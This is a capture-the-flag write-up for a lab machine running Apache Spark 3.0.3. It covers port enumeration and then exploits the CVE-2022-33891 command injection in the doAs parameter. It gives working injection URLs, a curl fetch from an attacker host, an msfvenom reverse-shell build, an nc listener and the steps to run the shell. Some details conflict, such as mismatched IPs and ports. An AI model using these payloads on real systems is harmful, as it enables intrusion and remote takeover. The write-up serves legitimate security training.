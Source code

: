 # Spark

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
nmap -v -sS -sV -sC -T4 -p- -oA bountyhunter-full-tcp 10.129.95.166

# Output
Nmap scan report for 10.129.228.19
Host is up (0.047s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp  open  http    Jetty 9.4.40.v20210413
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.40.v20210413)
|_http-favicon: Unknown favicon MD5: EE30B0E9F863992FE3ED62291F62B7E7
|_http-title: Spark Master at spark://spark:7077
8081/tcp  open  http    Jetty 9.4.40.v20210413
|_http-server-header: Jetty(9.4.40.v20210413)
|_http-title: Spark Worker at 10.129.228.19:42861
|_http-favicon: Unknown favicon MD5: FC7C9CFE16AAF8EFC89C90B88B65C54E
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
42861/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  9 08:37:30 2025 -- 1 IP address (1 host up) scanned in 42.89 seconds
```

# HTTP (Port 8080)

There are 2 web ports open on the machine, the first of which is port 8080, this is running [Apache Spark](https://spark.apache.org/), an Apache engine for data anlytics. 

![image](https://github.com/user-attachments/assets/ebe7ccb9-23d9-402f-88cb-5b4947416071)

The version of Apache Spark running can be seen in the top left next to the logo, the version in use is 3.0.3. A quick search shows this version is vulnerable to a Command Injection vulnerability, [CVE-2022–33891](https://nvd.nist.gov/vuln/detail/cve-2022-33891). 

I found [this writeup](https://vsociety.medium.com/apache-zero-days-apache-spark-command-injection-vulnerability-cve-2022-33891-2ea436576145) of the vulnerability useful when epxloiting this box. The code in this writeup gives us the clues we need to exploit the vulnerability, the ?doAs parameter on Spark accepts a valid user when passed into the parameter and checks the users membership using a raw Linux command, see code below: 

```php
private def getUnixGroups(username: String): Set[String] = {
val cmdSeq = Seq("bash", "-c", "id -Gn " + username)
// we need to get rid of the trailing "\n" from the result of command execution
Utils.executeAndGetOutput(cmdSeq).stripLineEnd.split(" ").toSet
Utils.executeAndGetOutput(idPath :: "-Gn" :: username :: Nil).stripLineEnd.split(" ").toSet
}}
```
This means if we can find a legitimate user (root, easy!), we can then follow it up with a command of our own which will be executed by chaining commands. 

I got excited and began hammering in some commands that chained common PoCs such as 'id' and 'whoami' however these seemed to fail. After reading the writeup more closely I realised this is Blind Command Injection. So instead fired up a web server on my local machine on port 8081 and then tried to access it from the Apache Spark box. This worked, see command and screenshot below showing the payload in the URL and ht on the web server:

```bash
http://10.129.228.19:8080/?doAs=root;curl%2010.10.14.5:8081
```

![image](https://github.com/user-attachments/assets/38ddeb1f-d845-4c34-8036-4a7607d17250)

Using a sleep command in a PoC such as ';sleep%2020' would have also shown this is working.

From here RCE should be trivial, I created an exploit file using msfvenom:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -f elf -o shell.elf
```

Used the command injection vulnerability to upload the shell and modify it to make it executable in a one liner payload:

```text
# URL With Payload
http://10.129.228.19:8081/?doAs=root;curl%2010.10.14.5:8081/shell.elf%20-o%20./shell.elf;chmod%20777%20shell.elf

# Decoded Command
curl 10.10.14.5:8081/shell.elf -o ./shell.elf;chmod 777 shell.elf
```

Finally I started a listener with nc:

```bash
nc -nlvp 80
```

And used the command injection to run the file:

```bash
http://10.129.228.19:8081/?doAs=root;./shell.elf
```

The shell with proof and flag can be seen below:
![image](https://github.com/user-attachments/assets/ecdbd0fd-939a-4daf-a5e5-edb37fda3a0b)
